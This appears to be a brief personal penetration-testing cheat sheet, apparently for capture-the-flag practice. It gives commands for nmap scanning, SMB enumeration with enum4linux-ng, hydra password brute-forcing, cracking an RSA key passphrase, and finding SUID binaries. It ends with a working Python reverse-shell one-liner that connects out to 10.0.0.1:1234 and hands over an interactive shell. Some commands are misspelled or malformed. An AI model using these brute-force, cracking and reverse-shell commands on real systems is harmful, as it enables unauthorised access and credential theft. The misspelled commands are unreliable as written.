 to run an nmap scan 

nmap -sC -sV -oN /path/to/file ip


Use enum4linux-ng.py for enumerating smb clients and servers

use example

python3 enum4linux-ng.py -U -A -R ip

hydra example

hydra -l username -P /path/to/wordlist proto://ip

to crack the passphrase of an rsa key

run
sh2john.py rsa_file > file.txt
joh file.txt

to check for suid on a system run the following commands
find / -perm -u=s -type f 2>/dev/null

different ways to read a file

while read line; do echo $line done; < file
cat file
grep . file


We can get a reverse shell with the pentestmonkey reverse shell examples
in python it would be, note that if the machine doesnt have python2 installed(modern machines) it works with python3

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
